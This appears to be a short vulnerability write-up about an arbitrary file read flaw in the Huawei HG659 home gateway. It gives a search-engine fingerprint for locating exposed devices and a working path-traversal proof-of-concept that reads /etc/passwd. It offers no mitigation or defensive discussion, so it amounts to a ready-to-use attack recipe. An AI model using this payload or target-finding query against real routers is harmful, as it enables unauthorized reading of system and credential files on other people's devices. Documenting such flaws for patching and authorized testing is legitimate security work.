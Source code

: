 # Huawei HG659 lib arbitrary file reading vulnerability

## Vulnerability Description

Huawei HG659 lib has a vulnerability to read any file. The attacker can read any file through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Huawei HG659</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="HUAWEI-Home-Gateway-HG659"</span>

## Vulnerability reappears

The login page is as follows



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210615141459903.png)



The POC is as follows



```plain
/lib///....//....//....//....//....//....//....//....//etc//passwd
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210615141751249.png)
